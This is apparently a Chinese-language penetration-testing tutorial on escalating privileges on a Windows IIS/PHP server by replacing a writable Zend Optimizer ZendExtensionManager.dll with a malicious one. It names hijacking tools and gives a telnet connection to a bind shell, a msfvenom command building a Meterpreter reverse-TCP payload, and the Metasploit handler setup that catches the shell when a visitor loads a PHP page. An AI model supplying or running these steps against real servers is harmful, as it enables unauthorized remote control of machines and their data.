

## 1、简介

在php里面有一个扩展是zend，这个是用解析php zend脚本加密文件。

如果服务器安装了zend，如果ZendExtensionManager.dll 权限可以修改，那就可以用其他dl替换这dll文件。

 查找ZendExtensionManager.dll 

C:\ZkeysSoft\Zend\ZendOptimizer-3.3.3\lib

 

用wt.asp 目录检测可写工具 检测权限是否可写

 

## **2、提权工具**

Zend_DLL_Hijacking.exe 这个是执行程序

Zend_DLL_Hijacking_for_nc.exe 这个是nc 正向连接

## 3、提权过程

**Zend_DLL_Hijacking_for_nc.exe 执行远控**

如果php装了Zend插件 就要查看这个目录的ZendExtensionManager.dll 是否可写，可写的情况下，修改文件名为nc.dll，就可以利用这个进行提权

需要的工具 cmd.exe、nc.exe  

 

 生成ZendExtensionManager.dll 上传到lib目录下 

iis6.0 在启动的时候 或 收回进程重启启动的时候有人访问网站的时候就会加载 dll文件

当用户访问php网页的时候就会加载dll 

```bash
teletnt 192.168.31.115 4444
```

 

**Zend_DLL_Hijacking.exe 执行远控**

msfconsole 生成反弹shell

生成攻击载荷

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

本地监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150 
set lport 12345
exploit
```

提权工具生成dll

 

当有人访问php网页的时候 就会加载dl 执行我们s.exe 那么 msf 就会监听到一个反弹shell

 
